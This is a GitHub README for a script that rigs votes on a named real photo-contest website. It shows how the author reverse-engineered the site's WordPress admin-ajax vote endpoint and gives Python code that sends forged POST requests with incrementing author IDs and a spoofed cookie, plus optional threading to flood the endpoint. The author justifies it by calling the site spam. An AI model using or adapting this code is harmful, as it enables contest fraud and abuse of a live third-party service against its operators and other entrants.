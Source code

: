# vote increaser on a site

**Site_url: [https://little1.in/]**

This is test user => [https://little1.in/contest/madhav-sethi-aam-ke-peti-3857/]

this site is a spam site which get trafic by a some child photos compitition
so i hack its database api - because it have some loopholes 
1: **it provides a ajax code in html file**
```bash
var data = {
 'action': 'vote_form_data',
 'contestid': contestid,
 'authorid': authorid,
  'name': name
}
jQuery.ajax({
  url:"https://little1.in/wp-admin/admin-ajax.php",
	type: 'POST',
	data: data}
```
**next**
just to figure out the **contestid,authorid,name** values to send post request 

it turns out that **name = ''** blank here and

**contestid** is in the end of the url itself 

so just to get **authorid** 
which is provided in html tag

<img src="https://github.com/rishabhjainfinal/vote_increaser_on_a_site/blob/master/Screenshot%20(68).png" >

SO FOR EACH VOTE YOU HAVE TO ADD +1 IN YOUR **authorid**  ALTHOUGH IT ALSO ADD A VOTE WHEN REQUESTED FROM SAME **authorid**   ¯\\_(ツ)_/¯ 

***next***

and then i make a simple script to fetch current votes 
```bash
def votes(url):
	source = urllib.request.urlopen(url).read()
	soup = bs.BeautifulSoup(source,features="html.parser")
	for i in soup.select('div.blog-item'):
		votes=i.p.strong.text
	return votes

```

you can also use **threading** to get things faster and more excited jsut un-comment all the threading lines code and comment the the increaser call funtion you will see it when you see the file
i don't have the power and internet speed to do but i tested it wooks fine 

```bash
def increaser(n):
	database_url = "https://little1.in/wp-admin/admin-ajax.php"
	contestid=url.split('/')[-2].split('-')[-1]

	payload = f'action=vote_form_data&contestid={contestid}&authorid={n}&name='
	headers = {
	  'Content-Type': 'application/x-www-form-urlencoded',
	  'Cookie': 'sitename_newvisitor=1; voteStatus-4233=4233'
	}

	response = requests.request("POST", database_url, headers=headers, data = payload)
```

this funtion will send request to the databasse of site and take **contestid** as arg 

**thats all**
we spam the spamer


all the require modues are here install them by pip install {module name}
```bash
requests
bs4
urllib.request
threading
```

**sucess example**

<img style='display:block' src="https://github.com/rishabhjainfinal/vote_increaser_on_a_site/blob/master/Screenshot%20(69).png" >

